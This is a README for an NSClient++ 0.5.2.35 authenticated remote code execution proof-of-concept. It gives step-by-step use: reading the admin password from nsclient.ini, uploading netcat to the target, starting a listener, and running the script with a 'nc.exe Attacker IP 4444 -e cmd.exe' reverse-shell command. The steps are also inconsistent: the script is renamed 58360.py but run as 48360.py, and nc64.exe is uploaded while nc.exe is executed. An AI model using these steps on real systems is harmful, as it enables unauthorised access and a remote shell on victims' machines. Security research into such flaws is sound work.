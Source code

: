 ** NSClient++ 0.5.2.35 Authenticated RCE Exploit

This repository contains a proof-of-concept (PoC) exploit for a Remote Code Execution (RCE) vulnerability in the **NSClient++ 0.5.2.35** version. 
The vulnerability allows authenticated users to execute arbitrary commands on the target system. This exploit leverages the **NSClient++** service's improper authentication handling,
which can be exploited by sending specially crafted requests.

** Vulnerability Overview:
NSClient++ versions prior to 0.5.2.35 are vulnerable to a Remote Code Execution (RCE) issue where an authenticated attacker can execute arbitrary commands on a remote server. 
This issue is caused by insecure handling of inputs from the attacker, which allows execution of arbitrary commands with administrative privileges.

** How to Use:
To run the exploit, you need to provide the following arguments: 
--->>>>>
1. Firt you have to chane the name to (58360.py)
2. make temp directory in target system named with temp
3. forword the port if needed on Attacker machine using the following command  ->  ssh -L 8443:127.0.0.1:8443 user@domain
4. upload your (nc64.exe) from attacker machine to the target on temp directory
5. by using the arguments in the code
----->   
5.1 **Target IP Address** (`-t`): The IP address of the target system running the vulnerable NSClient++ service.
5.2 **Target Port** (`-P`): The port number of the NSClient++ service (default is typically 5666 unless changed).
5.3 **Password** (`-p`): The administrative password for NSClient++ on the target system. ## read the password on the system using --> `type nsclient.ini
5.4 **Command to Execute** (`-c`): The command you want to execute on the target system once authenticated. ##in the terget upload it in "temp"
--------- 
6. Finally open listener then exploit the target with
 ```bash
    nc -lnvp 4444
    python3 48360.py -t 127.0.0.1 -P 8443 -p "Password" -c "c:\temp\nc.exe "Attacker IP" 4444 -e cmd.exe"

